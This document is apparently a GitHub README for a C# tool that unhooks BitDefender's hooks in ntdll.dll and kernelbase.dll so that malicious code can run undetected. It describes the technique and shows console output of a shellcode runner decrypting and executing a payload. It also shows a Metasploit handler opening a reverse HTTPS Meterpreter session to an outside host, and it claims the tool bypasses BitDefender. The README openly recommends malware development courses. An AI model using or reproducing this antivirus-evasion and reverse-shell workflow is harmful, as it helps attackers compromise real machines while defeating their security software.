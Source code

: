 # Unhook BitDefender
A C# application that unhooks **BitDefender** from **ntdll.dll** and **kernelbase.dll** to help run malicious code undetected.

The code is quite long (particularly the native Win32 structs), and I'm sure it could be optimised.

# Introduction
This C# code is based upon one of the techniques demonstrated in the RED TEAM Operator: Windows Evasion Course from [Sektor7](https://institute.sektor7.net), the original is written in C/C++. I would recommend any of the malware development courses, there is a lot of great stuff to learn about creating malware in C/C++.

When Windows creates a new process BitDefender injects the **atcuf64.dll** DLL into the process and hooks many of the **ntdll.dll/kernelbase.dll** functions. If, for example, `NtCreateProcess` is called by malicious code BitDefender is able to intercept the call, do it's anti-malware magic, then return execution to the thread (or kill the process if it is malicious).

The code maps another version of a DLL in memory, finds the `.text` section, and copies it over the hooked version.

The code has been updated so you can map and unhook any DLL in memory.

# Proof of Concept in x64dbg

The following image shows the `ZwCreateProcess` function when BitDefender is not present:

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/NoBitDef.png?raw=true)


The following image shows the `ZwCreateProcess` function when Bit Defender has hooked into **ntdll.dll**. We can see the `jmp` instruction (this is the hook):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefHooks.png?raw=true)


And finally, this image shows the `ZwCreateProcess` function after being unhooked (the `jmp` instruction has been reverted back to the normal syscall):

![No Bit Defender](https://github.com/plackyhacker/UnhookBitDefender/blob/main/BitDefUnhooked.png?raw=true)


# Example
 
Execution of the code is shown below:

```
[+] Mapping Ntdll...
[+] Unhooking Ntdll...
[+] Original Dll address is 0x7FFE23450000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xE8
[+] NT_HEADERS address is 0x2396A5200E8
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 10
[+] First section is .text
[+] First section is at 0x2396A5201F0
[+] Analysing section .text
[+] .text section is at 0x2396A5201F0
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Mapping Kernelbase...
[+] Unhooking Kernelbase...
[+] Original Dll address is 0x7FFE20CB0000
[+] Mapped Dll address is 0x2396A520000
[+] Mapped Dll is a valid image.
[+] e_lfanew equals 0xF0
[+] NT_HEADERS address is 0x2396A5200F0
[+] Mapped Dll NT Headers is valid.
[+] Sections to enumerate is 7
[+] First section is .text
[+] First section is at 0x2396A5201F8
[+] Analysing section .text
[+] .text section is at 0x2396A5201F8
[+] VirtualProtect Dll to PAGE_EXECUTE_READWRITE...
[+] Unhooking Dll by copying mapped data...
[+] VirtualProtect Dll to PAGE_EXECUTE_WRITECOPY...
[+] Unmapping view of Dll...

[+] Shellcode runner...
[+] Decrypting payload...
[+] VirtualAlloc...
[+] RtlMoveMemory...
[+] VirtualProtect (PAGE_NOACCESS)...
[+] Sleeping...
[+] VirtualProtect (PAGE_EXECUTE_READ)...
[+] ResumeThread...
```

And the magical meterpreter session:

```
msf6 exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://192.168.1.228:443
[*] https://192.168.1.228:443 handling request from 192.168.1.142; (UUID: dqyy0qcu) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.228:443 -> 192.168.1.142:59384) at 2021-10-11 08:21:51 +010
```

# Notes
~~I haven't tested the code with anything malicious yet to see if it bypasses BitDefender. I will post my findings when I do.~~

~~I tested this against Bit Defender with a very basic `Virtualalloc`, `RtlMoveMemory`, `VirtualProtect`, `CreateThread` classic combo (with an encrypted payload). Bit Defender didn't detect anything malicious on disk (with scanning) but did kill the process when `CreateThread` was called.~~

The code was updated to unhook any loaded DLL. Unhooking **ntdll.dll** and **kernelbase.dll** bypasses BitDefender in my tests.

Tested with windows/x64/meterpreter/reverse_https on Windows 10 Pro (build 10.0.19043) with BitDefender AntiVirus Free Edition.
